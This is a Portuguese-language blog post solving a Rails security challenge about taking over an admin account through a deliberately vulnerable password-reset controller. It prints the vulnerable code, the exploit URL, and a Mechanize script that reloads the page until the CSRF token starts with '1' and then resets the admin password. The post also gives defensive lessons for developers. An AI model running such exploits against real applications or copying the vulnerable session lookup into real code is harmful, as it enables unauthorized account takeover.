 ```yaml
---
title: "[Small Bite] Session Injection Challenge"
date: '2014-08-28T12:00:00-03:00'
slug: small-bite-session-injection-challenge
tags:
- metasploit
- security
draft: false
---
```


Eu expliquei rapidamente sobre Metasploit no [artigo anterior](http://www.akitaonrails.com/2014/08/27/small-bite-brincando-com-metasploit), e sobre o desafio do [@joernchen](https://gist.github.com/joernchen). Se você ainda não resolveu o desafio, talvez queira deixar pra ler este artigo depois!

**SPOILER ALERT**

Mas se abriu até aqui no artigo é porque quer saber o que é o problema. O @joernchen [publicou exatamente o seguinte código](https://gist.github.com/joernchen/9dfa57017b4732c04bcc):

--- ruby
# Try to become "admin" on http://gettheadmin.herokuapp.com/ 
# Vector borrowed from real-world code ;)
 
 
# config/routes.rb:
 
  root 'login#login'
  post 'login' => 'login#login'
  get 'reset/:token' => 'login#password_reset'
 
# app/controllers/login_controller.rb
 
class LoginController < ApplicationController
  def login
    if request.post?
      user = User.where(login: params[:login]).first
      if !user.nil?
        if params[:password] == user.password
           render :text => "censored"
        end
        render :text => "Wrong Password"
        return
      end
    else
      render :template => "login/form"
    end
  end
  def password_reset
    @user = User.where(token: params[:token]).first
    if @user
      session[params[:token]] = @user.id
    else
      user_id = session[params[:token]]
      @user = User.find(user_id) if user_id
    end
    if !@user
      render :text => "no way!"
      return
    elsif params[:password] && @user && params[:password].length > 6
      @user.password = params[:password]
        if @user.save
          render :text => "password changed ;)"
          return
        end
    end
    render :text => "error saving password!"
  end
 
end
```

Basicamente um trecho do arquivo de <tt>routes.rb</tt> e o <tt>login_controller.rb</tt>. Assuma que também tem um form que poderia ser algo assim:

--- html
<%= form_tag '/login', method: :post do %>
  <%= text_field_tag 'login' %>
  <%= password_field_tag 'password' %>
  <%= submit_tag 'login' %>
<% end %>
```

E um model chamado <tt>User</tt> que poderia ter a seguinte migration:

--- ruby
class CreateUsers < ActiveRecord::Migration
  def change
    create_table :users do |t|
      t.string :token
      t.string :login
      t.string :password

      t.timestamps
    end
  end
end
```

E, finalmente, um seed que poderia ter o seguinte:

```
User.create token: 'qualquercoisa', login: 'admin', password: 'qualquercoisa'
```

Primeiro entenda o que o controller faz:

* tem uma action simples de <tt>login</tt> que valida o POST de usuário e senha e renderiza o form de login.
* tem uma action de <tt>reset_password</tt> que atende a rota <tt>reset/:token</tt>.

Quando o form é renderizado, ele gera um HTML assim:

--- html
<!DOCTYPE html>
<html>
<head>
  <title>Gettheadmin</title>
  <link data-turbolinks-track="true" href="/assets/application-9cc0575249625b8d8648563841072913.css" media="all" rel="stylesheet" />
  <script data-turbolinks-track="true" src="/assets/application-baf6c4c3436bbd5accc1b87ff9b9eabe.js"></script>
  <meta content="authenticity_token" name="csrf-param" />
<meta content="857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=" name="csrf-token" />
</head>
<body>

<form accept-charset="UTF-8" action="/login" method="post"><div style="display:none"><input name="utf8" type="hidden" value="&#x2713;" /><input name="authenticity_token" type="hidden" value="857GlwfWLYjv66EGyXa4d7PNUkPZleMgWcL+biMpDzE=" /></div>
  <input id="login" name="login" type="text" />
  <input id="password" name="password" type="password" />
  <input name="commit" type="submit" value="login" />
</form>

</body>
</html>
```

O importante: o token CSRF na tag de meta. Ele é diferente toda vez que você puxa o formulário e serve para evitar [Cross Site Request Forgery](http://guides.rubyonrails.org/security.html#cross-site-request-forgery-csrf). Mas tem um detalhe importante: quando a session é inicializada ele sempre vai ter pelo menos duas chave-valor: uma que é a "session_id" e outra com a chave "_csrf_token" com o valor que aparece no HTML justamente para fazer a checagem.

E a parte que é o buraco no controller é este:

--- ruby
user_id = session[params[:token]]
@user = User.find(user_id) if user_id
```

Se o <tt>params[:token]</tt> for "_csrf_token", o equivalente ficaria assim:

--- ruby
@user = User.find(session['_csrf_token'])
```

Agora, sabemos que o <tt>User.create</tt> inicial vai criar um admin com o ID que será o inteiro "1". O método <tt>#find</tt> aceita não só números como strings (para o caso, por exemplo, onde você cria uma renderização alternativa de ID para fazer URLs bonitas como no Wordpress onde ficaria "/1-admin" em vez de "/1"). 

Quando você faz:

--- ruby
"1abcd".to_i # => 1
```

Note que ele ignora o que não é string e devolve o inteiro 1.

Portanto, basta dar reload no site até o "_csrf_token" começar com "1" seguindo de letras. Aí ele vai fazer <tt>User.find("1abcd")</tt> que é o mesmo que <tt>User.find(1)</tt> e pronto! Conseguimos o usuário. E para piorar, o código do controller ainda faz isso em seguinte:

--- ruby
if params[:password] && @user && params[:password].length > 6
  @user.password = params[:password]
    if @user.save
      render :text => "password changed ;)"
      return
    end
end
```

Ou seja, ele grava a nova senha que você passar como parâmetro. Portanto a URL para exploit é:

```
http://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567
```

E para automatizar o exploit, fiz este pequeno script:

--- ruby
require 'rubygems'
require 'mechanize'

100.times do
  agent = Mechanize.new { |agent|
    agent.user_agent_alias = 'Mac Safari'
  }
  page = agent.get("http://gettheadmin.herokuapp.com/")
  token = page.at('meta[@name="csrf-token"]')[:content]
  puts token
  if token =~ /^1\w+/
    puts "TRYING EXPLOIT!!"
    doc = agent.get('http://gettheadmin.herokuapp.com/reset/_csrf_token?password=1234567')
    break if doc.content =~ /password changed/
  end
end
```

Quando o script parar, a senha mudou pra "1234567", agora basta fazer login com o usuário "admin" e senha "1234567" e pronto, você está dentro!

E eu coloquei 100 vezes, mas muito antes disso já vai parar porque não demora muito pra um "_csrf_token" que começa com "1".

![Exploit funciona](https://akitaonrails.s3.amazonaws.com/assets/image_asset/image/469/pasted_image_at_2014_08_27_11_38_am.png)

Lições aprendidas:

* A session tem valores por padrão! Nunca busque chaves na session baseado diretamente num parâmetro de URL. Aliás, **nunca** confie em parâmetros de URL

* Cuidado com o método <tt>#find</tt> do ActiveRecord por causa da conversão implícita de string para integer.

* Use uma biblioteca que já cuida desses detalhes como o [Devise](https://github.com/plataformatec/devise)

Assista aos screencasts do RubyTapas que falam justamente sobre conversões de strings:

* [206. Coersion](http://www.rubytapas.com/episodes/206-Coercion)
* [207. Conversion Function](http://www.rubytapas.com/episodes/207-Conversion-Function)
* [208. Lenient Conversions](http://www.rubytapas.com/episodes/208-Lenient-Conversions)
* [209. Explicit Conversion](http://www.rubytapas.com/episodes/209-Explicit-Conversion)
* [210. Implicit Conversion](http://www.rubytapas.com/episodes/210-Implicit-Conversion)

Alguém conseguiu explorar e mudar a senha de admin de outra forma diferente desta? Não deixe de comentar abaixo.

